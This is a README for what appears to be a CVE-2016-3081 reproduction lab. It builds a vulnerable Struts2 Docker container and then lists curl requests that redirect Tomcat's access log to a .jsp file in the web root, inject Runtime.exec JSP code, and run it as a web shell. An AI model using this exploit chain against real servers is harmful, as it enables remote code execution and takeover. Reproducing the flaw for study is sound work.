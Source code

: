 CVE-2016-3081
===============










### container build
```
docker build -t cvecontainer/2016_3081 .
```
### container run
```
docker run -p 8080:8080 cvecontainer/2016_3081  
```
### アクセスログの出力先をwebapps/ROOTに変更
```
curl http://container:8080/struts2-blank/example/HelloWorld.action?class.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
```
### アクセスログの拡張子を.jspに変更
```
curl http://container:8080/struts2-blank/example/HelloWorld.action?class.classLoader.resources.context.parent.pipeline.first.prefix=shell
curl http://container:8080/struts2-blank/example/HelloWorld.action?class.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
```
### アクセスログの日付部分(yyyy-mm-dd)を1に変更する。
### ↑の2つのコマンドとあわせて、アクセスログはshell1.jspに吐き出されるように
```
curl http://container:8080/struts2-blank/example/HelloWorld.action?class.classLoader.resources.context.parent.pipeline.first.fileDateFormat=1
```
### アクセスログにJSPコードを埋め込み
```
curl http://container:8080/struts2-blank/example/aaaa.jsp?a=<%Runtime.getRuntime().exec("finder");%>
```
### アクセスログにアクセスすることで、jsp実行
```
curl http://container:8080/shell1.jsp
```

